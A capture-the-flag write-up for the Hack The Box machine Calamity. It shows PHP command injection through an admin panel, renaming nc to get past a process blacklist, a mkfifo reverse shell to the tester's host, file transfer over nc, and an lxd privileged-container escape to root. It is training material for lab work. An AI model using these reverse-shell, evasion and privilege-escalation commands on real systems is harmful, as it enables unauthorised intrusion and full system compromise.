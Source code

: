 ```bash
$ sudo nmap -sV -sC 10.10.10.27
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<br/>

Only port 22 and 80, so let's enumerate port 80 that is HTTP

<br/>

Now let's use gobuster for search directories

```bash
$ sudo gobuster -w /opt/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.27 -x php,txt -t 50
/uploads (Status: 301)
/admin.php (Status: 200)
```

<br/>

In uploads, there is nothing, but in admin.php there's a login

![calamity1](/images/htb-calamity/calamity1.png)

Now i'll send the request to burp repeater for test sql injections

![calamity2](/images/htb-calamity/calamity2.png)

So the password is in the response, the credentials are admin:skoupidotenekes

<br/>

Login successfully, there's a html interpreter where i can put my html, I put there php

![calamity3](/images/htb-calamity/calamity3.png)

So now i try to execute commands

![calamity4](/images/htb-calamity/calamity4.png)

Now i'll try to get a reverse shell, but the common techniques doesn't work, so I started to enumerate files, I'll use burp cause it's easier to read

```
GET /admin.php?html=<%3fphp+system("ls+/home/xalvas")%3b+%3f> HTTP/1.1
```

```
alarmclocks
app
dontforget.txt
intrusions
peda
recov.wav
user.txt
```

Let's see what's intrusions

```
GET /admin.php?html=<%3fphp+system("cat+/home/xalvas/intrusions")%3b+%3f>
```

```
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 04:55:42.796288
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:22:11.228988
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:23:23.424719
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-29 02:43:57.083849
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 02:48:47.909739
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.202315
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.780685
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 06:25:06.209358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.329358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.330115
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.508710
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.510537
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python3    ...PROCESS KILLED AT 2017-12-24 10:30:28.836132
```

So the machine is killing nc, sh and python, that are the ones that I tryied to get a reverse shell, now I'm going to copy nc to another directory and rename it to get a reverse shell

```
GET /admin.php?html=<%3fphp+system("cp+/bin/nc+/dev/shm/c3t")%3b+%3f>
```


I give permissions

```
GET /admin.php?html=<%3fphp+system("chmod+777+/dev/shm/c3t")%3b+%3f>
```

And now get the reverse shell

```
GET /admin.php?html=<%3fphp+system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|/dev/shm/c3t+10.10.14.3+9001+>/tmp/f")%3b+%3f>
```

And here's the connection back

```bash
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.10.27 57116
/bin/sh: 0: can't access tty; job control turned off
$
```

<br/>

Now i'll get a full interactive shell for autocompletition

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@calamity:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 9001
c3t@ubuntu:~/ctf/htb/boxes/calamity$ stty raw -echo
www-data@calamity:/var/www/html$ export term=xterm
```

<br/>

Now let's start by enumerating the xalvas directory

<br/>

There's recov.wav

```
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27  2017 recov.wav
```

And in /home/xalvas/alarmclocks are more

```
-rw-r--r-- 1 root   root   3196668 Jun 27  2017 rick.wav                        │
-rw-r--r-- 1 root   root   2645839 Jun 27  2017 xouzouris.mp3
```

So i transfered this files to my machine because probably there's a stego technique used here

```
$ /dev/shm/c3t 10.10.14.3 9003 < recov.wav
$ nc -lvnp 9003 > recov.wav
```

```
$ /dev/shm/c3t 10.10.14.3 9003 < rick.wav
$ nc -lvnp 9003 > rick.wav
```

```
$ /dev/shm/c3t 10.10.14.3 9003 < xouzouris.mp3
$ nc -lvnp 9003 > xouzouris.mp3
```

Now i open it on audacity, import the recov.wav and rick.wav, then select effect-invert and there's a voice that will say things

![calamity5](/images/htb-calamity/calamity5.png)

The voice says some numbers and then the password is 185, so the password is 18547936..*

<br/>

Now i'll ssh into xalvas user

```bash
$ ssh xalvas@10.10.10.27
```

<br/>

And now the privesc

```bash
$ id
uid=1000(c3t) gid=1000(c3t) groups=1000(c3t),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)
```

lxd is for containers, and there's a vulnerability that we can use it to run as root

<br/>

I'll download alpine builder

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder
```

```bash
$ sudo ./build-alpine -a i686
```

And now transfer it

```bash
$ scp alpine-v3.12-i686-20200911_0436.tar.gz xalvas@10.10.10.27:
```

Now let's do the process to get root user

```
$ mkdir privesc
$ cd privesc/
$ mv ../alpine-v3.12-i686-20200911_0436.tar.gz .
$ lxc image import alpine-v3.12-i686-20200911_0436.tar.gz --alias alpine
$ lxc image list
+--------+--------------+--------+-------------------------------+------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+------+--------+-------------------------------+
| alpine | c4d146e61042 | no     | alpine v3.12 (20200911_04:36) | i686 | 3.06MB | Sep 11, 2020 at 11:46am (UTC) |
+--------+--------------+--------+-------------------------------+------+--------+-------------------------------+
$ lxc init alpine c3t -c security.privileged=true
$ lxc config device add c3t host-root disk source=/ path=/mnt/root/
$ lxc start c3t
$ lxc exec c3t /bin/sh
~ # cd /mnt/root/root
```
